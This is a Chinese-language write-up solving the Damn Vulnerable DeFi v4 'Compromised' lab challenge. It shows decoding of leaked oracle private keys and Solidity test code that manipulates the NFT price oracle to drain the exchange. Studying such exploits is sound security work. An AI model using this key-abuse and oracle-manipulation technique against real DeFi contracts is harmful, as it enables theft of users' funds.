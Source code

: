 # Damn Vulnerable DeFi v4 - compromised

- https://www.damnvulnerabledefi.xyz/challenges/compromised/
- source code in https://github.com/wiasliaw/wiasliaw-ctf

## check condition

將 Exchange 合約裡的資金清空

```solidity
// Exchange doesn't have ETH anymore
assertEq(address(exchange).balance, 0);

// ETH was deposited into the recovery account
assertEq(recovery.balance, EXCHANGE_INITIAL_ETH_BALANCE);

// Player must not own any NFT
assertEq(nft.balanceOf(player), 0);

// NFT price didn't change
assertEq(oracle.getMedianPrice("DVNFT"), INITIAL_NFT_PRICE);
```

## break

根據題目給出的資訊，可以懷疑下面的兩段資料應該是私鑰

```txt
4d 48 67 33 5a 44 45 31 59 6d 4a 68 4d 6a 5a 6a 4e 54 49 7a 4e 6a 67 7a 59 6d 5a 6a 4d 32 52 6a 4e 32 4e 6b 59 7a 56 6b 4d 57 49 34 59 54 49 33 4e 44 51 30 4e 44 63 31 4f 54 64 6a 5a 6a 52 6b 59 54 45 33 4d 44 56 6a 5a 6a 5a 6a 4f 54 6b 7a 4d 44 59 7a 4e 7a 51 30

4d 48 67 32 4f 47 4a 6b 4d 44 49 77 59 57 51 78 4f 44 5a 69 4e 6a 51 33 59 54 59 35 4d 57 4d 32 59 54 56 6a 4d 47 4d 78 4e 54 49 35 5a 6a 49 78 5a 57 4e 6b 4d 44 6c 6b 59 32 4d 30 4e 54 49 30 4d 54 51 77 4d 6d 46 6a 4e 6a 42 69 59 54 4d 33 4e 32 4d 30 4d 54 55 35
```

將其先透過一些線上工具將其轉換成 string:

```txt
MHg3ZDE1YmJhMjZjNTIzNjgzYmZjM2RjN2NkYzVkMWI4YTI3NDQ0NDc1OTdjZjRkYTE3MDVjZjZjOTkzMDYzNzQ0

MHg2OGJkMDIwYWQxODZiNjQ3YTY5MWM2YTVjMGMxNTI5ZjIxZWNkMDlkY2M0NTI0MTQwMmFjNjBiYTM3N2M0MTU5
```

問過 GPT 後，推測可能是 base64 encode 並透過一些線上工具解碼：

```txt
0x7d15bba26c523683bfc3dc7cdc5d1b8a2744447597cf4da1705cf6c993063744

0x68bd020ad186b647a691c6a5c0c1529f21ecd09dcc45241402ac60ba377c4159
```

最後以 cast 得出是哪個地址的私鑰，可以知道有權限更新 Oracle 的地址私鑰外洩：

```console
$ cast wallet addr --private-key 0x7d15bba26c523683bfc3dc7cdc5d1b8a2744447597cf4da1705cf6c993063744

0x188Ea627E3531Db590e6f1D71ED83628d1933088

$ cast wallet addr --private-key 0x68bd020ad186b647a691c6a5c0c1529f21ecd09dcc45241402ac60ba377c4159

0xA417D473c40a4d42BAd35f147c21eEa7973539D8
```

## solution

驗證是不是對應的地址：

```solidity
// check private key compromised
uint256 pk1 = 0x7d15bba26c523683bfc3dc7cdc5d1b8a2744447597cf4da1705cf6c993063744;
assertEq(vm.addr(pk1), sources[0]);
uint256 pk2 = 0x68bd020ad186b647a691c6a5c0c1529f21ecd09dcc45241402ac60ba377c4159;
assertEq(vm.addr(pk2), sources[1]);
```

購買價格為 0 的 NFT：

```solidity
// feed the fake price
vm.startPrank(sources[0]);
oracle.postPrice("DVNFT", 0);
vm.stopPrank();
vm.startPrank(sources[1]);
oracle.postPrice("DVNFT", 0);
vm.stopPrank();
assertEq(oracle.getMedianPrice("DVNFT"), 0);

// player buy 1 nft with price 0
vm.startPrank(player);
uint256 id = exchange.buyOne{value: PLAYER_INITIAL_ETH_BALANCE}();
vm.stopPrank();
```

再來將其以 999 ether 的價格賣出：

```solidity
// feed the fake price again
vm.startPrank(sources[0]);
oracle.postPrice("DVNFT", EXCHANGE_INITIAL_ETH_BALANCE);
vm.stopPrank();
vm.startPrank(sources[1]);
oracle.postPrice("DVNFT", EXCHANGE_INITIAL_ETH_BALANCE);
vm.stopPrank();
assertEq(oracle.getMedianPrice("DVNFT"), EXCHANGE_INITIAL_ETH_BALANCE);

// player sell 1 nft with price 999 ether
vm.startPrank(player);
nft.approve(address(exchange), id);
exchange.sellOne(id);
recovery.call{value: EXCHANGE_INITIAL_ETH_BALANCE}(new bytes(0));
vm.stopPrank();
```
